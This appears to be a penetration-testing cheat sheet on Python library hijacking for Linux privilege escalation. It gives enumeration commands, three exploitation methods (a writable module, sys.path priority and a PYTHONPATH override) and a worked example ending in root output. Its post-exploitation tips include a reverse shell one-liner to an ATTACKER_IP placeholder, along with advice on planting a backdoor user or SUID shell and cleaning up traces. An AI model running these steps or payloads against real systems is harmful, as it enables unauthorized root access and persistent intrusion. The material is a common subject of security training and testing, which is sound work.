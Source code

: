 ### 1. Technique Name:

Python Library Hijacking
### 2. Summary:

Python Library Hijacking is a privilege escalation technique that abuses misconfigured permissions, module search paths, or environment variables in Python applications. If a Python script is executed with elevated privileges (e.g., via SUID or with `sudo`) and it imports a module from a writable or hijackable path, attackers can insert malicious code into that module or redirect imports to their own crafted modules.
### 3. Conditions / Requirements:

- Python script runs as root (e.g., via `sudo` or SUID)    
- The imported module:
    - Has writable permissions **OR**    
    - Is imported from a user-writable path that precedes the original in `PYTHONPATH` **OR**    
    - Is redirected via a manipulated `PYTHONPATH` environment variable    
- Attacker can correctly replicate the expected function signature and name
### 4. Enumeration Steps:
#### A. Check if Python script is SUID or runs with sudo:

```bash
ls -l <script>.py
sudo -l
```
#### B. Inspect imported modules inside the Python script:

Look for lines like:

```python
import psutil
from pandas import *
```
#### C. Find the module’s location:

```bash
pip3 show psutil
```
#### D. Locate and examine function definitions:

```bash
grep -r "def virtual_memory" /path/to/module/
```
#### E. Verify writable permissions:

```bash
ls -l <module_file>.py
ls -ld <module_directory>
```
#### F. Print Python module search path:

```bash
python3 -c 'import sys; print("\n".join(sys.path))'
```
### 5. Exploitation Steps:
#### A. **Wrong Write Permissions**:

1. Identify target function (`def virtual_memory()`)    
2. Inject malicious code:

```python
import os
os.system('id')
```

3. Run the SUID/`sudo` script:   

```bash
sudo /usr/bin/python3 ./mem_status.py
```

Output should confirm root access.
#### B. **Hijack via Library Path (sys.path priority)**:

1. Verify that `/usr/lib/python3.8` (or similar) is writable.    
2. Create a fake module:

```python
# /usr/lib/python3.8/psutil.py
import os
def virtual_memory():
    os.system('id')
```

3. Run script:    

```bash
sudo /usr/bin/python3 ./mem_status.py
```

#### C. **Hijack via PYTHONPATH**:

1. Move fake module to a controlled directory:

```bash
mv psutil.py /tmp/
```

2. Run with PYTHONPATH override: 

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
```
### 6. Post-Exploitation Tips:

- Replace `id` with a reverse shell or file read payload:    

```python
os.system('bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1')
```

- Drop a backdoor user or SUID shell once root is gained.
- Clean up:
    - Remove malicious modules
    - Restore original permissions
### 7. Example / Notes:

**SUID Python Script:**

```bash
-rwsrwxr-x 1 root mrb3n 188 mem_status.py
```

**Script Content:**

```python
import psutil
available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
print(f"Available memory: {round(available_memory, 2)}%")
```

**Hijacked Module Function:**

```python
def virtual_memory():
    import os
    os.system('id')
```

**Command to run hijacked library via PYTHONPATH:**

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
```

Output:

```bash
uid=0(root) gid=0(root) groups=0(root)
```

This confirms successful privilege escalation via Python Library Hijacking.
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Python_Library_Hijacking
